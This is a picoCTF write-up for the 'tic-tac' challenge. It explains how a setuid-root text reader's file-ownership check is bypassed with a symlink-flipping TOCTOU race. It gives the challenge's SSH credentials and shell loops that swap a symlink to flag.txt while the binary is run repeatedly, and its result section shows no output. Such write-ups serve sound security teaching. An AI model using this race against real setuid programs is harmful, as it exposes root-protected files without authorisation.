

## 🛡️ PicoCTF Write-up: **Race Condition File Read**

**Challenge Name**: *tic-tac*

---

### 📜 Challenge Description

> Someone created a program to read text files. We think the program reads files with root privileges, but apparently it only accepts to read files that are owned by the user running it.

We were provided with SSH access:

```bash
ssh ctf-player@saturn.picoctf.net -p 54773
Password: 483e80d4
```

Inside the server, a binary called `txtreader` was available:

```bash
$ ls -l txtreader
-rwsr-xr-x 1 root root 19016 Aug  4  2023 txtreader
```

The binary is a **setuid-root** ELF, meaning it runs with **root privileges**, but it contains logic that prevents reading files not owned by the calling user.

---

### 🔍 Code Analysis

The provided source code checks file ownership before reading:

```cpp
if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
}
```

Even though the program runs as root, it uses `getuid()` (real UID), not `geteuid()`. This means the check compares against the **user running the binary**, not the elevated root UID.

---

### 🎯 Goal

Bypass this ownership check and trick the program into reading a root-owned file: `flag.txt`.

---

### 🧠 Exploitation Strategy: **Race Condition via Symbolic Link (TOCTOU)**

The check and file read are **not atomic** (Time Of Check To Time Of Use). We can exploit this using a **symbolic link** that points to a file we own at check time, but to `flag.txt` at read time.

---

### 🧪 Step-by-Step Exploitation

1. **Create a dummy file you own**:

   ```bash
   echo "Hello world!" > myfile
   ```

2. **Create an initial symlink pointing to your file**:

   ```bash
   ln -s myfile flip
   ```

3. **Start a background race condition flipper**:

   ```bash
   while true; do ln -sf myfile flip; ln -sf flag.txt flip; done &
   ```

   This rapidly swaps the symlink between `myfile` (user-owned) and `flag.txt` (root-owned).

4. **Spam the program with reads**:

   ```bash
   while true; do ./txtreader flip; done
   ```

   Occasionally, the program will:

   * `stat("flip") → sees user-owned file (myfile)`
   * then `open("flip") → actually reads flag.txt`

---

### 🏁 Result

Eventually, output will include:



🎉 **You win!**

---

### 🧠 Technical Concepts Involved

* `TOCTOU`: Time-of-Check Time-of-Use vulnerability.
* `setuid` binaries.
* Symlinks (`ln -s`), especially forced ones (`ln -sf`).
* Linux file ownership (`stat`, `getuid`).
* Race conditions and concurrency in file operations.

---

### ✅ Summary

| Technique        | Used? |
| ---------------- | ----- |
| Symlink Flipping | ✅     |
| File Ownership   | ✅     |
| Race Condition   | ✅     |
| SUID Privilege   | ✅     |

---

